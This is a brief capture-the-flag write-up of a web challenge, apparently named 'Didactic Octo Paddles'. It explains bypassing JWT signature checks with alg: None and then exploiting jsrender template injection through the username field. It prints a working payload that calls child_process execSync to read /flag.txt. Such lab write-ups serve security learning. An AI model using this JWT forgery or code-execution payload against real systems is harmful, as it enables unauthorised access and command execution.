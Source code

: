 ```yaml
---
title: 'Didactic Octo Paddles'
date: '2023-09-23'
---
```


# Didactic Octo Paddles

First we know that we have to go through username, and password
try to register new account, try to detect vulnerable in cart => fail

read admin middleware, we notice that we can bypass **alg: None** when else executed ⇒ **attack alg:None JWT ⇒ not check signature**
so we can get /admin page with admin privilege => next step

try to read /admin routes
detect that it can be vulnerable to SSTI => jsrender template
without santinizing username
find payload

```python=
{
"alg": "None",
"typ": "JWT"
}
{
"id": 1,
"iat": 1679824202,
"exp": 1679827802
}

payload : we register new account with admin's rights
{
"username":"{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}},\"password\":\"123\"}",
"password": "123"
}
```


and can read flag
=> solve